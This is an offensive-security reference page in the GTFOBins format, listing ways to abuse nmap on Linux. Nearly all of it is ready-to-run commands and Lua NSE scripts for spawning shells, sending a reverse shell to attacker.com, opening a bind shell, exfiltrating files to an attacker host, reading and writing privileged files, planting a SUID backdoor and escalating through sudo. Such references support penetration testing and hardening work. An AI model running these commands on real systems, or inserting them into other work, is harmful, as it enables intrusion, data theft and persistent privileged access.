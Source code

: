 # GTFOBin: nmap

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

Input echo is disabled.

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

```
nmap --interactive
nmap> !sh
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
TF=$(mktemp)
echo 'local s=require("socket");
local t=assert(s.tcp());
t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
while true do
  local r,x=t:receive();local f=assert(io.popen(r,"r"));
  local b=assert(f:read("*a"));t:send(b);
end;
f:close();t:close();' > $TF
nmap --script=$TF
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell.

```
export LPORT=12345
TF=$(mktemp)
echo 'local k=require("socket");
local s=assert(k.bind("*",os.getenv("LPORT")));
local c=s:accept();
while true do
  local r,x=c:receive();local f=assert(io.popen(r,"r"));
  local b=assert(f:read("*a"));c:send(b);
end;c:close();f:close();' > $TF
nmap --script=$TF
```

## File upload

It can exfiltrate files on the network.

Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.

```
RHOST=attacker.com
RPORT=8080
LFILE=file_to_send
nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
```

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
TF=$(mktemp)
echo 'local f=io.open(os.getenv("LFILE"), 'rb')
local d=f:read("*a")
io.close(f);
local s=require("socket");
local t=assert(s.tcp());
t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
t:send(d);
t:close();' > $TF
nmap --script=$TF
```

## File download

It can download remote files.

Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.

```
RHOST=attacker.com
RPORT=8080
TF=$(mktemp -d)
LFILE=file_to_save
nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.

```
export LPORT=12345
export LFILE=file_to_save
TF=$(mktemp)
echo 'local k=require("socket");
local s=assert(k.bind("*",os.getenv("LPORT")));
local c=s:accept();
local d,x=c:receive("*a");
c:close();
local f=io.open(os.getenv("LFILE"), "wb");
f:write(d);
io.close(f);' > $TF
nmap --script=$TF
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
TF=$(mktemp)
echo 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
nmap --script=$TF
```

The payload appears inside the regular nmap output.

```
LFILE=file_to_write
nmap -oG=$LFILE DATA
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

The file is actually parsed as a list of hosts/networks, lines are leaked through error messages.

```
nmap -iL file_to_read
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

The payload appears inside the regular nmap output.

```
sudo install -m =xs $(which nmap) .

LFILE=file_to_write
./nmap -oG=$LFILE DATA
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Input echo is disabled.

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

```
sudo nmap --interactive
nmap> !sh
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Input echo is disabled.

```
sudo install -m =xs $(which nmap) .

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
./nmap --script=$TF
```
